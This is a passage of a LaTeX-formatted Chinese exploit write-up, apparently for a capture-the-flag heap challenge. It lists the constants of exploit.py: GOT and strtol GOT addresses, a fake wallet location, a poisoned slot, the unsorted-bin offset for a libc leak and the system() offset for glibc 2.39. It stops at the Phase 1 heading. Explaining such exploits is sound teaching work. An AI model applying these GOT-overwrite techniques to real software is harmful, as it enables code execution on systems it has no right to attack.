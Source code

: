 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{8. exploit
逐行註解}\label{exploit-ux9010ux884cux8a3bux89e3}

完整程式在 \texttt{exploit.\allowbreak{}py}。下面按階段解釋。

\paragraph{8.0 常數}\label{ux5e38ux6578}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{SLOTS      }\OperatorTok{=} \BaseNTok{0x4040c0}   \CommentTok{\# wallet *slots[16]}
\NormalTok{GOT        }\OperatorTok{=} \BaseNTok{0x404000}   \CommentTok{\# .got.plt}
\NormalTok{STRTOL\_GOT }\OperatorTok{=} \BaseNTok{0x404040}
\NormalTok{FAKE\_WALLET}\OperatorTok{=} \BaseNTok{0x4040a8}   \CommentTok{\# 假 wallet 的位置（見 §7.4）}
\NormalTok{FAKE\_INDEX }\OperatorTok{=} \DecValTok{2}          \CommentTok{\# slots[2] 指向假 wallet}
\NormalTok{POISON\_SLOT}\OperatorTok{=} \DecValTok{6}          \CommentTok{\# 被毒化、ledger 指向 slot 表的 wallet 所在 slot（推導見 §8.3）}

\NormalTok{OFF\_UNSORTED }\OperatorTok{=} \BaseNTok{0x203b20} \CommentTok{\# \&main\_arena.bins[0]（gdb 實測：fd {-} libc\_base）}
\NormalTok{OFF\_SYSTEM   }\OperatorTok{=} \BaseNTok{0x58740}  \CommentTok{\# Ubuntu 24.04 glibc 2.39 的 system()}
\NormalTok{LIBC\_FP }\OperatorTok{=}\NormalTok{ \{...\}         }\CommentTok{\# 各 GOT 項目的 offset，用來「指紋比對」確認 libc 版本}
\end{Highlighting}
\end{Shaded}

\paragraph{8.1 Phase 1：libc leak（unsorted
bin）}\label{phase-1libc-leakunsorted-bin}
\end{document}
